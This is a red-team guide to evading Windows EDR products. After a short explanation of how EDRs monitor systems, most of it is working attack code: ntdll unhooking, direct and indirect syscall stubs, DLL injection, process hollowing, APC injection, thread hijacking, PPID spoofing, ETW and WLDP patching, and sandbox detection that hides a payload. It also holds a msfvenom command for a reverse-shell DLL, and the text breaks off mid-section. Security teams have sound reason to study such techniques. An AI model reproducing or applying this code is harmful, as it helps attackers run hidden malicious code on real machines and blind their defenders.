

# EDR Evasion

> **Difficulty:** Advanced | **Category:** Penetration Testing

---

## Table of Contents

1. [How EDRs Work](#how-edrs-work)
2. [Evasion Techniques](#evasion-techniques)
3. [Direct Syscalls with SysWhispers2/3](#direct-syscalls-with-syswhispers23)
4. [Beacon Object Files (BOFs)](#beacon-object-files-bofs)
5. [OPSEC Principles for Red Teamers](#opsec-principles-for-red-teamers)
6. [EDR Evasion Decision Flow](#edr-evasion-decision-flow)
7. [Injection Technique Comparison](#injection-technique-comparison)

---

## How EDRs Work

**EDR (Endpoint Detection and Response)** solutions differ fundamentally from traditional AV. Where AV focuses primarily on file scanning, EDRs monitor system behavior in real time using deep kernel and userland visibility.

### Kernel Callbacks

Windows provides a notification callback framework that EDRs register with during driver load:

- **`PsSetCreateProcessNotifyRoutine`** — Called whenever a process is created or exits. EDR receives the parent PID, image path, command line, and can cancel process creation. This is how EDRs detect suspicious parent-child relationships.
- **`PsSetLoadImageNotifyRoutine`** — Called when a PE image (EXE, DLL, driver) is mapped into a process. EDR sees every DLL load, allowing detection of suspicious DLL loads or reflective injection attempts.
- **`PsSetCreateThreadNotifyRoutine`** — Called on thread creation and termination. EDRs use this to detect remote thread creation (`CreateRemoteThread`) across process boundaries.
- **`CmRegisterCallback`** — Called on registry operations (create key, set value, delete key). Used to detect persistence mechanisms (run keys, service creation, scheduled tasks added via registry).
- **`ObRegisterCallbacks`** — Intercepts object manager operations on process/thread handles. EDRs use this to detect `OpenProcess` calls with suspicious access masks (used for injection or credential theft from LSASS).

```c
// Example: What an EDR sees via ObRegisterCallbacks when you OpenProcess(LSASS)
// The callback receives:
// - ObjectType: PsProcessType
// - Operation: OB_OPERATION_HANDLE_CREATE
// - Process: target = lsass.exe, requestor = your_process.exe
// - DesiredAccess: PROCESS_VM_READ | PROCESS_QUERY_INFORMATION (0x1410)
// EDR can strip PROCESS_VM_READ from the granted access — credential dumping fails
```

### ETW (Event Tracing for Windows)

**ETW** is a high-performance kernel-level logging framework. EDRs consume ETW events to gain visibility into system activity without hooking.

- **ETW Providers:** Every Windows component has ETW providers that emit structured events. Key ones for EDRs:
  - `Microsoft-Windows-Threat-Intelligence` (MSTI) — provides `KERNEL_THREATINT_*` events; generates events for memory allocation with execute permissions, process injection patterns
  - `Microsoft-Windows-Kernel-Process` — process/thread creation events
  - `Microsoft-Windows-Kernel-File` — file operations
  - `Microsoft-Windows-DotNETRuntime` — .NET assembly loading
  - `Microsoft-Windows-PowerShell` — script block logging
- **ETW Sessions:** EDRs register private ETW sessions (`StartTrace`) to consume events from specific providers, giving them real-time telemetry.
- **Protected Sessions:** The MSTI provider is **PPL-protected** — only processes running as Protected Process Light can subscribe. This makes ETW harder to fully blind compared to userland hooks.

### Userland Hooks

**Userland hooking** is the most common EDR technique for deep function interception. When the EDR driver loads, it injects its monitoring DLL into every user process. This DLL patches critical Windows API functions:

```
Process Memory Layout (with EDR hooks):
┌──────────────────────────────────────┐
│  ntdll.dll (EDR-hooked copy)         │
│  ┌────────────────────────────────┐  │
│  │ NtCreateThread:                │  │
│  │   JMP 0x7FF... (→ EDR DLL)    │  │  ← Inline hook (5-byte JMP patch)
│  │   [original bytes saved]      │  │
│  └────────────────────────────────┘  │
│  EDR Monitor DLL                     │
│  ┌────────────────────────────────┐  │
│  │ hook_NtCreateThread():         │  │
│  │   log_event(args)              │  │
│  │   if (suspicious) kill()       │  │
│  │   call_original_stub()         │  │
│  └────────────────────────────────┘  │
└──────────────────────────────────────┘
```

**Commonly hooked functions:**
- `NtAllocateVirtualMemory` / `NtProtectVirtualMemory`
- `NtWriteVirtualMemory`
- `NtCreateThread` / `NtCreateThreadEx` / `NtQueueApcThread`
- `NtOpenProcess`
- `LdrLoadDll`
- `CreateRemoteThread` / `CreateRemoteThreadEx`
- `NtMapViewOfSection`

**Hook types:**
- **Inline hooks (JMP hooks):** First 5–14 bytes of the function are overwritten with a `JMP` to the EDR's hook function.
- **IAT hooks:** The Import Address Table of a target DLL is modified to redirect function calls.
- **EAT hooks:** The Export Address Table of ntdll.dll is modified (less common).

### Process and Memory Monitoring

- **RWX memory allocation:** Allocating memory that is simultaneously readable, writable, and executable (`PAGE_EXECUTE_READWRITE`) is a strong indicator of shellcode loading. EDRs alert on or block RWX allocations.
- **Memory scanning:** Periodically scanning all process memory regions for shellcode patterns (e.g., Cobalt Strike beacon signatures).
- **Stack analysis:** Inspecting call stacks at time of suspicious API calls — detecting `NtAllocateVirtualMemory` being called from a region that isn't a known DLL (unbacked memory) is a strong indicator.
- **Behavioral analysis:** ML models trained on sequences of API calls to detect known attack patterns (e.g., `OpenProcess` + `VirtualAllocEx` + `WriteProcessMemory` + `CreateRemoteThread` = classic injection).

---

## Evasion Techniques

### 1. Unhooking ntdll.dll

Read a clean, unhooked copy of `ntdll.dll` from disk (or from `\KnownDLLs`) and overwrite the EDR-modified in-memory copy.

```c
// unhook_ntdll.c — Replace hooked ntdll with clean copy from disk
#include <windows.h>
#include <stdio.h>

BOOL unhook_ntdll() {
    // Open the on-disk ntdll.dll (unmodified)
    HANDLE hFile = CreateFileA("C:\\Windows\\System32\\ntdll.dll",
                               GENERIC_READ, FILE_SHARE_READ, NULL,
                               OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) return FALSE;

    DWORD file_size = GetFileSize(hFile, NULL);
    HANDLE hMapping = CreateFileMappingA(hFile, NULL, PAGE_READONLY, 0, 0, NULL);
    LPVOID mapped = MapViewOfFile(hMapping, FILE_MAP_READ, 0, 0, 0);

    // Get the base address of the loaded (hooked) ntdll
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");

    // Parse PE headers of the clean disk copy
    PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)mapped;
    PIMAGE_NT_HEADERS nt  = (PIMAGE_NT_HEADERS)((PBYTE)mapped + dos->e_lfanew);
    PIMAGE_SECTION_HEADER sections = IMAGE_FIRST_SECTION(nt);

    // Find and overwrite only the .text section (where hooks are placed)
    for (int i = 0; i < nt->FileHeader.NumberOfSections; i++) {
        if (memcmp(sections[i].Name, ".text", 5) == 0) {
            DWORD old_protect;
            LPVOID dest = (PBYTE)hNtdll + sections[i].VirtualAddress;
            SIZE_T size  = sections[i].SizeOfRawData;
            LPVOID src   = (PBYTE)mapped + sections[i].PointerToRawData;

            VirtualProtect(dest, size, PAGE_EXECUTE_READWRITE, &old_protect);
            memcpy(dest, src, size);
            VirtualProtect(dest, size, old_protect, &old_protect);
            break;
        }
    }

    UnmapViewOfFile(mapped);
    CloseHandle(hMapping);
    CloseHandle(hFile);
    return TRUE;
}

int main() {
    if (unhook_ntdll()) {
        printf("[+] ntdll.dll successfully unhooked\n");
        // Now make API calls — EDR hooks no longer intercept
    }
    return 0;
}
```

```c
// Alternative: Load ntdll from KnownDLLs (in-memory, no disk read)
HANDLE hSection = NULL;
UNICODE_STRING us;
RtlInitUnicodeString(&us, L"\\KnownDlls\\ntdll.dll");
OBJECT_ATTRIBUTES oa = {sizeof(oa), NULL, &us, OBJ_CASE_INSENSITIVE};
NtOpenSection(&hSection, SECTION_MAP_READ | SECTION_MAP_EXECUTE, &oa);
// Map and overwrite as above
```

### 2. Direct Syscalls

**Direct syscalls** bypass userland hooks entirely by issuing syscalls directly using assembly, never touching hooked ntdll stubs.

```c
// direct_syscall.c — Manual NtAllocateVirtualMemory syscall stub
// Syscall numbers change between Windows versions — must be resolved dynamically

#include <windows.h>

// NtAllocateVirtualMemory syscall number
// Windows 10 20H2 x64 = 0x18
// Use SysWhispers2 to generate these dynamically

EXTERN_C NTSTATUS NtAllocateVirtualMemory_stub(
    HANDLE ProcessHandle,
    PVOID *BaseAddress,
    ULONG_PTR ZeroBits,
    PSIZE_T RegionSize,
    ULONG AllocationType,
    ULONG Protect
);

// In MASM (.asm file):
// NtAllocateVirtualMemory_stub PROC
//     mov r10, rcx
//     mov eax, 18h    ; syscall number for NtAllocateVirtualMemory
//     syscall
//     ret
// NtAllocateVirtualMemory_stub ENDP
```

```nasm
; syscall_stubs.asm — x64 syscall stubs (MASM syntax)
.code

; NtAllocateVirtualMemory — Win10 21H2 syscall number 0x18
NtAllocateVirtualMemory PROC
    mov r10, rcx
    mov eax, 18h
    syscall
    ret
NtAllocateVirtualMemory ENDP

; NtWriteVirtualMemory — syscall 0x3A
NtWriteVirtualMemory PROC
    mov r10, rcx
    mov eax, 3Ah
    syscall
    ret
NtWriteVirtualMemory ENDP

; NtCreateThreadEx — syscall 0xC1
NtCreateThreadEx PROC
    mov r10, rcx
    mov eax, 0C1h
    syscall
    ret
NtCreateThreadEx ENDP

; NtProtectVirtualMemory — syscall 0x50
NtProtectVirtualMemory PROC
    mov r10, rcx
    mov eax, 050h
    syscall
    ret
NtProtectVirtualMemory ENDP

END
```

### 3. Indirect Syscalls

**Indirect syscalls** call the syscall instruction *inside* ntdll.dll's own stubs, rather than from custom stubs. This avoids the "syscall from unbacked memory" detection.

```c
// indirect_syscall.c
// Instead of calling "syscall" from our code, we JMP to the syscall instruction
// inside ntdll.dll's NtAllocateVirtualMemory stub (after the EDR's hook)

#include <windows.h>

// Find address of "syscall; ret" gadget inside ntdll
PVOID find_syscall_gadget(LPCSTR func_name) {
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    PBYTE pFunc = (PBYTE)GetProcAddress(hNtdll, func_name);
    // Scan for 0x0F 0x05 (syscall) followed by 0xC3 (ret)
    for (int i = 0; i < 32; i++) {
        if (pFunc[i] == 0x0F && pFunc[i+1] == 0x05 && pFunc[i+2] == 0xC3) {
            return pFunc + i;
        }
    }
    return NULL;
}

// SysWhispers3 generates this automatically with the -m indirect flag
```

### 4. DLL Injection

**Classic DLL injection** using LoadLibrary. This IS caught by most EDRs due to `LdrLoadDll` hooks and `PsSetLoadImageNotifyRoutine`.

```c
// dll_inject.c — LoadLibrary injection (detectable, shown for completeness)
#include <windows.h>
#include <tlhelp32.h>

BOOL inject_dll(DWORD pid, const char *dll_path) {
    HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    SIZE_T path_len = strlen(dll_path) + 1;

    LPVOID remote_str = VirtualAllocEx(hProc, NULL, path_len,
                                        MEM_COMMIT, PAGE_READWRITE);
    WriteProcessMemory(hProc, remote_str, dll_path, path_len, NULL);

    HMODULE hKernel = GetModuleHandleA("kernel32.dll");
    LPTHREAD_START_ROUTINE pLoadLib =
        (LPTHREAD_START_ROUTINE)GetProcAddress(hKernel, "LoadLibraryA");

    HANDLE hThread = CreateRemoteThread(hProc, NULL, 0,
                                         pLoadLib, remote_str, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);
    CloseHandle(hProc);
    return TRUE;
}
```

**Manual DLL mapping** (no LoadLibrary — stealth improvement):

```c
// Manual map: parse PE headers, allocate memory, copy sections, fix relocations,
// resolve imports, call DllMain. Much stealthier — no LdrLoadDll call.
// Tools: https://github.com/TheCruZ/kdmapper (kernel-level)
//        https://github.com/Zer0Mem0ry/ManualMap (userland)
```

### 5. Reflective DLL Injection

**Reflective DLL injection** (Stephen Fewer technique) — the DLL contains its own loader that maps it into memory without using Windows loader APIs.

```c
// The reflective DLL exports a "ReflectiveDllLoader" function
// This function is position-independent and performs its own:
// 1. Finds its own base address (using caller address + walking PE headers)
// 2. Allocates memory for itself
// 3. Copies PE sections to allocated memory
// 4. Processes relocations
// 5. Resolves imports (requires finding kernel32 via PEB walking)
// 6. Calls DllMain(DLL_PROCESS_ATTACH)

// Inject the reflective DLL:
// 1. Read DLL file into memory buffer
// 2. VirtualAllocEx + WriteProcessMemory into target
// 3. CreateRemoteThread pointed at offset of ReflectiveDllLoader within the buffer

// Usage with Metasploit:
// msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f dll -o met.dll
// The Metasploit DLL payload includes the reflective loader

// Manual example using ReflectiveDLLInjection by Stephen Fewer:
// https://github.com/stephenfewer/ReflectiveDLLInjection
```

### 6. Process Hollowing

**Process hollowing** (RunPE) creates a legitimate process in suspended state, replaces its memory with a malicious PE, then resumes execution.

```c
// process_hollow.c — Process Hollowing (RunPE) 
#include <windows.h>
#include <winternl.h>

typedef NTSTATUS (WINAPI *pNtUnmapViewOfSection)(HANDLE, PVOID);

BOOL hollow_process(const char *victim_path, PBYTE payload_pe) {
    // 1. Spawn victim in suspended state
    STARTUPINFOA si = {sizeof(si)};
    PROCESS_INFORMATION pi;
    if (!CreateProcessA(victim_path, NULL, NULL, NULL, FALSE,
                        CREATE_SUSPENDED, NULL, NULL, &si, &pi)) return FALSE;

    // 2. Get PEB base address and read image base from PEB
    CONTEXT ctx = {CONTEXT_FULL};
    GetThreadContext(pi.hThread, &ctx);
    // ctx.Rdx = PEB address (x64)
    PVOID peb_addr = (PVOID)ctx.Rdx;
    PVOID image_base_ptr;
    ReadProcessMemory(pi.hProcess, (PBYTE)peb_addr + 0x10,
                      &image_base_ptr, sizeof(PVOID), NULL);
    PVOID image_base;
    ReadProcessMemory(pi.hProcess, image_base_ptr, &image_base, sizeof(PVOID), NULL);

    // 3. Unmap the victim's original image
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    pNtUnmapViewOfSection NtUnmap = (pNtUnmapViewOfSection)
        GetProcAddress(hNtdll, "NtUnmapViewOfSection");
    NtUnmap(pi.hProcess, image_base);

    // 4. Parse payload PE headers
    PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)payload_pe;
    PIMAGE_NT_HEADERS nt  = (PIMAGE_NT_HEADERS)(payload_pe + dos->e_lfanew);
    PVOID preferred_base = (PVOID)nt->OptionalHeader.ImageBase;
    SIZE_T image_size    = nt->OptionalHeader.SizeOfImage;

    // 5. Allocate memory at preferred base (or let OS choose)
    PVOID new_base = VirtualAllocEx(pi.hProcess, preferred_base, image_size,
                                     MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!new_base)
        new_base = VirtualAllocEx(pi.hProcess, NULL, image_size,
                                   MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // 6. Write PE headers
    WriteProcessMemory(pi.hProcess, new_base, payload_pe,
                       nt->OptionalHeader.SizeOfHeaders, NULL);

    // 7. Write each section
    PIMAGE_SECTION_HEADER sec = IMAGE_FIRST_SECTION(nt);
    for (int i = 0; i < nt->FileHeader.NumberOfSections; i++) {
        PVOID dest = (PBYTE)new_base + sec[i].VirtualAddress;
        PBYTE src  = payload_pe + sec[i].PointerToRawData;
        WriteProcessMemory(pi.hProcess, dest, src, sec[i].SizeOfRawData, NULL);
    }

    // 8. Update PEB image base
    WriteProcessMemory(pi.hProcess, image_base_ptr, &new_base, sizeof(PVOID), NULL);

    // 9. Update RIP to new entry point and resume
    ctx.Rcx = (DWORD64)new_base + nt->OptionalHeader.AddressOfEntryPoint;
    SetThreadContext(pi.hThread, &ctx);
    ResumeThread(pi.hThread);
    return TRUE;
}
```

### 7. APC Injection (Early Bird)

**Early Bird APC injection** queues shellcode execution before the main thread runs — before EDR hooks are established.

```c
// early_bird_apc.c — APC injection before EDR initialization
#include <windows.h>

BOOL early_bird_inject(const char *target_path, PBYTE shellcode, SIZE_T sc_len) {
    STARTUPINFOA si = {sizeof(si)};
    PROCESS_INFORMATION pi;

    // Create target process suspended BEFORE its DLLs initialize
    CreateProcessA(target_path, NULL, NULL, NULL, FALSE,
                   CREATE_SUSPENDED, NULL, NULL, &si, &pi);

    // Allocate and write shellcode in the suspended process
    LPVOID remote_buf = VirtualAllocEx(pi.hProcess, NULL, sc_len,
                                        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(pi.hProcess, remote_buf, shellcode, sc_len, NULL);

    // Queue APC to main thread — executes when thread enters alertable wait
    QueueUserAPC((PAPCFUNC)remote_buf, pi.hThread, 0);

    // Resume thread — APC executes before any EDR hooks are in place
    ResumeThread(pi.hThread);
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);
    return TRUE;
}
```

```c
// NtQueueApcThread direct syscall version (avoids EDR hook on QueueUserAPC)
// Use SysWhispers2-generated NtQueueApcThread stub
NtQueueApcThread(hThread, 
                 (PPS_APC_ROUTINE)remote_shellcode,
                 remote_shellcode, NULL, NULL);
```

### 8. Thread Hijacking

**Thread hijacking** redirects an existing thread's execution to shellcode.

```c
// thread_hijack.c
#include <windows.h>

BOOL hijack_thread(DWORD tid, PBYTE shellcode, SIZE_T sc_len) {
    HANDLE hThread = OpenThread(
        THREAD_GET_CONTEXT | THREAD_SET_CONTEXT | THREAD_SUSPEND_RESUME,
        FALSE, tid);
    if (!hThread) return FALSE;

    // Pause the thread
    SuspendThread(hThread);

    // Get current CPU context
    CONTEXT ctx = {CONTEXT_FULL};
    GetThreadContext(hThread, &ctx);

    // Find parent process handle from tid to allocate memory
    HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE,
                                GetProcessIdOfThread(hThread));

    // Allocate and write shellcode
    LPVOID exec_buf = VirtualAllocEx(hProc, NULL, sc_len + 64,
                                      MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hProc, exec_buf, shellcode, sc_len, NULL);

    // Save original RIP, append a JMP back to it at end of shellcode buffer
    // [shellcode bytes] + [push original_rip; ret]  OR use trampolines

    // Redirect RIP to shellcode
    DWORD64 orig_rip = ctx.Rip;
    ctx.Rip = (DWORD64)exec_buf;
    SetThreadContext(hThread, &ctx);

    // Resume — thread executes our shellcode, then returns to original RIP
    ResumeThread(hThread);
    CloseHandle(hThread);
    CloseHandle(hProc);
    return TRUE;
}
```

### 9. PPID Spoofing

**Parent Process ID (PPID) spoofing** makes a malicious process appear as a child of a legitimate parent (e.g., `explorer.exe`), defeating parent-child relationship alerting.

```c
// ppid_spoof.c — spawn process with spoofed PPID
#include <windows.h>
#include <TlHelp32.h>

DWORD get_explorer_pid() {
    HANDLE snap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe = {sizeof(pe)};
    DWORD pid = 0;
    if (Process32First(snap, &pe)) {
        do {
            if (_stricmp(pe.szExeFile, "explorer.exe") == 0) {
                pid = pe.th32ProcessID;
                break;
            }
        } while (Process32Next(snap, &pe));
    }
    CloseHandle(snap);
    return pid;
}

BOOL spawn_with_spoofed_ppid(const char *cmd) {
    DWORD explorer_pid = get_explorer_pid();
    HANDLE hParent = OpenProcess(PROCESS_CREATE_PROCESS, FALSE, explorer_pid);

    // Use PROC_THREAD_ATTRIBUTE_PARENT_PROCESS to set spoofed parent
    SIZE_T attr_size = 0;
    InitializeProcThreadAttributeList(NULL, 1, 0, &attr_size);
    LPPROC_THREAD_ATTRIBUTE_LIST attr_list =
        (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, attr_size);
    InitializeProcThreadAttributeList(attr_list, 1, 0, &attr_size);

    UpdateProcThreadAttribute(attr_list, 0,
                               PROC_THREAD_ATTRIBUTE_PARENT_PROCESS,
                               &hParent, sizeof(HANDLE), NULL, NULL);

    STARTUPINFOEXW si = {0};
    si.StartupInfo.cb = sizeof(si);
    si.lpAttributeList = attr_list;
    PROCESS_INFORMATION pi;

    // Spawn process — will appear as child of explorer.exe in process tree
    CreateProcessA(NULL, (LPSTR)cmd, NULL, NULL, FALSE,
                   EXTENDED_STARTUPINFO_PRESENT | CREATE_NO_WINDOW,
                   NULL, NULL, &si.StartupInfo, &pi);

    DeleteProcThreadAttributeList(attr_list);
    CloseHandle(hParent);
    return TRUE;
}
```

```powershell
# PowerShell PPID spoofing using .NET
$code = @"
using System;
using System.Runtime.InteropServices;
using System.Diagnostics;
public class PPID {
    [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Unicode)]
    public struct STARTUPINFOEX {
        public STARTUPINFO StartupInfo;
        public IntPtr lpAttributeList;
    }
    [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Unicode)]
    public struct STARTUPINFO {
        public int cb; public string lpReserved; public string lpDesktop;
        public string lpTitle; public int dwX; public int dwY;
        public int dwXSize; public int dwYSize; public int dwXCountChars;
        public int dwYCountChars; public int dwFillAttribute; public int dwFlags;
        public short wShowWindow; public short cbReserved2;
        public IntPtr lpReserved2; public IntPtr hStdInput;
        public IntPtr hStdOutput; public IntPtr hStdError;
    }
    [DllImport("kernel32.dll")] public static extern bool InitializeProcThreadAttributeList(
        IntPtr lpAL, int dwAttrCount, int dwFlags, ref IntPtr lpSize);
    [DllImport("kernel32.dll")] public static extern bool UpdateProcThreadAttribute(
        IntPtr lpAL, uint dwFlags, IntPtr attr, IntPtr lpVal, IntPtr cbSize, IntPtr prev, IntPtr ret);
    [DllImport("kernel32.dll")] public static extern IntPtr OpenProcess(
        uint dwAccess, bool bInherit, int dwPid);
}
"@
Add-Type $code
$ppid = (Get-Process explorer).Id
```

### 10. ETW Patching

**ETW patching** disables the Event Tracing for Windows subsystem to blind EDRs that rely on ETW telemetry.

```powershell
# PowerShell ETW patch — patch EtwEventWrite to return immediately
# Requires AMSI bypass first
$code = @"
using System; using System.Runtime.InteropServices;
public class ETW {
    [DllImport("kernel32")] public static extern IntPtr GetProcAddress(IntPtr h, string n);
    [DllImport("kernel32")] public static extern IntPtr LoadLibrary(string n);
    [DllImport("kernel32")] public static extern bool VirtualProtect(
        IntPtr a, UIntPtr s, uint n, out uint o);
}
"@
Add-Type $code

$hNtdll = [ETW]::LoadLibrary("ntdll.dll")
$pEtwEventWrite = [ETW]::GetProcAddress($hNtdll, "EtwEventWrite")
$p = 0
[ETW]::VirtualProtect($pEtwEventWrite, [UIntPtr]4, 0x40, [ref]$p) | Out-Null
# Patch: xor eax, eax (33 C0) + ret (C3) = returns 0 immediately
$patch = [byte[]](0x33, 0xC0, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($patch, 0, $pEtwEventWrite, 3)
```

```c
// C version of ETW patching
#include <windows.h>

void patch_etw() {
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    PVOID pEtwWrite = GetProcAddress(hNtdll, "EtwEventWrite");
    
    DWORD old_prot;
    VirtualProtect(pEtwWrite, 4, PAGE_EXECUTE_READWRITE, &old_prot);
    
    // xor eax, eax (2 bytes) + ret (1 byte)
    BYTE patch[] = {0x33, 0xC0, 0xC3};
    memcpy(pEtwWrite, patch, sizeof(patch));
    
    VirtualProtect(pEtwWrite, 4, old_prot, &old_prot);
}
```

### 11. AMSI / WLDP Patching

```c
// WLDP (Windows Lockdown Policy) bypass — patch WldpQueryDynamicCodeTrust
#include <windows.h>

void patch_wldp() {
    HMODULE hWldp = LoadLibraryA("wldp.dll");
    if (!hWldp) return;
    
    PVOID pWldpQuery = GetProcAddress(hWldp, "WldpQueryDynamicCodeTrust");
    if (!pWldpQuery) return;
    
    DWORD old_prot;
    VirtualProtect(pWldpQuery, 8, PAGE_EXECUTE_READWRITE, &old_prot);
    
    // mov eax, 0 (return success) + ret
    BYTE patch[] = {0x31, 0xC0, 0xC3};
    memcpy(pWldpQuery, patch, sizeof(patch));
    
    VirtualProtect(pWldpQuery, 8, old_prot, &old_prot);
}
```

### 12. Phantom DLL Hollowing

**Phantom DLL hollowing** maps a non-loaded DLL as a memory section (a "phantom"), writes shellcode into it, and redirects execution. The memory appears backed by a legitimate DLL file on disk.

```c
// phantom_hollow.c
// 1. Find a DLL that is NOT loaded in the target process
// 2. Open that DLL file and create a file-backed section
// 3. Map section into target process — memory looks like a legitimate DLL
// 4. Write shellcode over the section content
// 5. Execute via CreateRemoteThread at shellcode offset

BOOL phantom_hollow(DWORD pid, const char *dll_path, PBYTE shellcode, SIZE_T sc_len) {
    HANDLE hFile = CreateFileA(dll_path, GENERIC_READ | GENERIC_WRITE,
                                FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    HANDLE hMap = CreateFileMappingA(hFile, NULL,
                                      PAGE_EXECUTE_READWRITE, 0, 0, NULL);
    LPVOID local_view = MapViewOfFile(hMap, FILE_MAP_WRITE, 0, 0, 0);

    // Write shellcode into the local view
    memcpy(local_view, shellcode, sc_len);
    UnmapViewOfFile(local_view);

    // Now map the modified DLL into the target process
    HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    LPVOID remote_view = NULL;
    // NtMapViewOfSection into target process
    // The memory appears backed by dll_path on disk, but contains shellcode

    CloseHandle(hMap);
    CloseHandle(hFile);
    CloseHandle(hProc);
    return TRUE;
}
```

### 13. Sandbox Detection Techniques

Before executing the payload, detect if running in an analysis sandbox and exit cleanly.

```c
// sandbox_detect.c — Multiple sandbox detection checks
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>

// Check 1: Process count (sandboxes often have < 30 processes)
BOOL check_process_count() {
    HANDLE snap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe = {sizeof(pe)};
    int count = 0;
    if (Process32First(snap, &pe)) {
        do { count++; } while (Process32Next(snap, &pe));
    }
    CloseHandle(snap);
    return (count < 30);  // TRUE = likely sandbox
}

// Check 2: Username matches known sandbox names
BOOL check_username() {
    char username[256];
    DWORD size = sizeof(username);
    GetUserNameA(username, &size);
    const char *sandbox_users[] = {
        "sandbox", "virus", "malware", "test", "analysis",
        "cuckoo", "john", "user", "vmware", NULL
    };
    for (int i = 0; sandbox_users[i]; i++) {
        if (_stricmp(username, sandbox_users[i]) == 0) return TRUE;
    }
    return FALSE;
}

// Check 3: Screen resolution (sandboxes often run 800x600)
BOOL check_resolution() {
    int width  = GetSystemMetrics(SM_CXSCREEN);
    int height = GetSystemMetrics(SM_CYSCREEN);
    return (width <= 800 || height <= 600);
}

// Check 4: System uptime < 12 minutes (sandbox resets between detonations)
BOOL check_uptime() {
    return (GetTickCount64() < 720000);  // 12 minutes in ms
}

// Check 5: Sleep acceleration detection
BOOL check_sleep_acceleration() {
    DWORD before = GetTickCount();
    Sleep(2000);
    DWORD after = GetTickCount();
    return ((after - before) < 1500);  // Sleep was accelerated by sandbox
}

// Check 6: Hypervisor detection via CPUID
BOOL check_hypervisor() {
    int cpuid_info[4];
    __cpuid(cpuid_info, 1);
    return (cpuid_info[2] & (1 << 31)) != 0;  // Hypervisor Present bit
}

// Check 7: Common sandbox files
BOOL check_sandbox_files() {
    const char *sandbox_files[] = {
        "C:\\agent.pyw",
        "C:\\sandbox\\agent.py",
        "C:\\cuckoo\\agent.py",
        "C:\\Windows\\System32\\drivers\\vmhgfs.sys",     // VMware
        "C:\\Windows\\System32\\drivers\\vboxguest.sys",  // VirtualBox
        NULL
    };
    for (int i = 0; sandbox_files[i]; i++) {
        if (GetFileAttributesA(sandbox_files[i]) != INVALID_FILE_ATTRIBUTES)
            return TRUE;
    }
    return FALSE;
}

// Check 8: Mouse movement detection (sandboxes don't move the mouse)
BOOL check_mouse_movement() {
    POINT p1, p2;
    GetCursorPos(&p1);
    Sleep(5000);
    GetCursorPos(&p2);
    return (p1.x == p2.x && p1.y == p2.y);
}

// Check 9: Clipboard content (sandboxes have empty clipboards)
BOOL check_clipboard() {
    OpenClipboard(NULL);
    HANDLE hData = GetClipboardData(CF_TEXT);
    CloseClipboard();
    return (hData == NULL);
}

BOOL is_sandbox() {
    if (check_process_count())    return TRUE;
    if (check_username())         return TRUE;
    if (check_resolution())       return TRUE;
    if (check_uptime())           return TRUE;
    if (check_sleep_acceleration()) return TRUE;
    if (check_hypervisor())       return TRUE;
    if (check_sandbox_files())    return TRUE;
    return FALSE;
}

int main() {
    if (is_sandbox()) {
        // Appear benign — exit silently or open a legitimate-looking document
        ShellExecuteA(NULL, "open", "calc.exe", NULL, NULL, SW_SHOW);
        return 0;
    }
    // Real payload here
    return 0;
}
```

---

## Direct Syscalls with SysWhispers2/3

**SysWhispers2** automatically generates Windows syscall stubs with dynamic syscall number resolution (no hardcoded numbers that break across Windows versions).

```bash
# Installation
git clone https://github.com/jthuraisamy/SysWhispers2.git
cd SysWhispers2
pip3 install -r requirements.txt

# Generate syscall stubs for specific functions
